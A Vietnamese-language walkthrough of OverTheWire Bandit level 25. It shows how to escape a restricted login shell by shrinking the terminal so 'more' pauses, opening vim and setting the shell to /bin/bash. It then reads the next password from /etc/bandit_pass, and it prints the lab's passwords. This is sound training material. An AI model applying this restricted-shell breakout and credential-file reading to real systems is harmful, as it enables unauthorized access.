


# 🎯 Bandit Level 25

## 📌 END goal: Tìm key bị giấu
**Describe**: Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.


```
host: bandit.labs.overthewire.org
port: 2220
username: bandit25
password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```
---

## ⚙️ Cách thực hiện:
**Payload:**
```bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
cat /etc/passwd | grep "bandit26"
cat /usr/bin/showtext
#Cho nhỏ terminal
ssh -i bandit26.sshkey bandit26@localhost
:set shell=/bin/bash
:shell
cat /etc/bandit_pass/bandit26
```

-Như mô tả ở đầu, ta sẽ vào ```/etc/passwd``` để đọc loại Shell mặc định khi đăng nhập vào bandit26 là gì:   
```bash
$ cat /etc/passwd | grep "bandit26"
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

-Như đã thấy thì khi login vào ```bandit26```, chương trình khởi động không phải ```/bin/bash``` mà là ```usr/bin/showtext```   
==>Nên không thể gõ các lệnh như ```ls```, ```cat```, ...

-Thử đọc nội dung của ```/usr/bin/showtext```:
```bash
$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

-Vậy là khi kết nối ssh từ lv25 lên lv26 thì server sẽ chạy ```more ~/text.txt``` và tự ngắt kết nối luôn.

-Biết chức năng của more là nếu terminal không đủ diện tích, nó sẽ cho phép mình cuộn dòng đọc dữ liệu, 
nếu soạn ```v```, ```more``` sẽ cho phép mở ```vim```, giờ dùng lệnh ```ssh -i bandit26.sshkey bandit26@localhost``` và cho nhỏ terminal lại và soạn ```v```:



-Sau đó soạn: ```:set shell=/bin/bash``` để chuyển về mode shell thay vì ```showtext``` và dùng lệnh ```:shell``` để có 1 shell thật:



-Dùng lệnh: ```cat /etc/bandit_pass/bandit26``` để lấy key.

### Key: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ